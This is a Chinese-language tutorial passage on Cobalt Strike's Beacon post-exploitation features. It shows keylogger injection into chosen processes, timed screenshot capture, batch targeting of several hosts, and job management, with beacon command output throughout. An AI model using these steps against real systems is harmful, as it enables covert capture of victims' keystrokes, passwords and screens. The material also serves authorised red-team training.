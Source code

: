 #0x00 Beacon 键盘记录
Beacon提供的键盘记录个人感觉还是比较强大

```
beacon> help keylogger
Use: keylogger [pid] <x86|x64>
     keylogger

Inject a keystroke logger into the specified process. Use jobkill to terminate
this task early.

Use keylogger with no arguments to spawn a temporary process and inject the 
keystroke logger into it.
```
可以看到简介 可以使用2种方式 一种是进程注入 一种是直接使用 到这里我顺便介绍一些命令吧 ps 显示目标进程
![Cobalt Strike ](./img/9.1.png)
然后我们选择一个进程来注入 

```
beacon> keylogger 2460
[*] Tasked beacon to log keystrokes in 2460 (x86)
[+] host called home, sent: 65610 bytes
[+] received keystrokes
```
我们在 View>Keystrokes 可以看到 效果
![Cobalt Strike ](./img/9.2.png)

不得不说Cobalt Strike还是比较人性化，他给我们提供了很方便的操作，能多选目标 然后右键 获取进程注入键盘记录，屏幕截屏等。

![Cobalt Strike ](./img/9.3.png)

这里需要注意一下你的注入User是你想记录的用户进程


#0x01 Screenshost

```
beacon> screenshot 1344 x86 90
[*] Tasked beacon to take screenshots in 1344/x86 for next 90 seconds
[+] host called home, sent: 162832 bytes
[+] host called home, sent: 58 bytes
[*] received screenshot (116332 bytes)
[*] received screenshot (112961 bytes)

```
同样 也是可以使用批量的
![Cobalt Strike ](./img/9.4.png)
操作跟键盘记录一样，但是选择后他会选择一个记录多长时间，自己按需求选择

我们在 View>Screenshost 可以看到 效果
![Cobalt Strike ](./img/9.5.png)

在我们不需要这些进程的时候 可以 在beacon里面运行 jobs 查看任务进程在用jobkill  JID来结束进程

```
beacon> keylogger 1344 x86
[*] Tasked beacon to log keystrokes in 1344 (x86)
[+] host called home, sent: 65610 bytes
beacon> jobs
[*] Tasked beacon to list jobs
[+] host called home, sent: 8 bytes
[*] Jobs

 JID  PID   Description
 ---  ---   -----------
 5    1344  keystroke logger

beacon> jobkill 5
[*] Tasked beacon to kill job 5
[+] host called home, sent: 10 bytes
```

#0x02 文末
貌似Cobalt Strike 截图的时候目标系统会有明显的卡顿，还有个远控功能还是建议大家别用不是很好（用时半小时）

### 本文如有错误，请及时提醒，以免误导他人
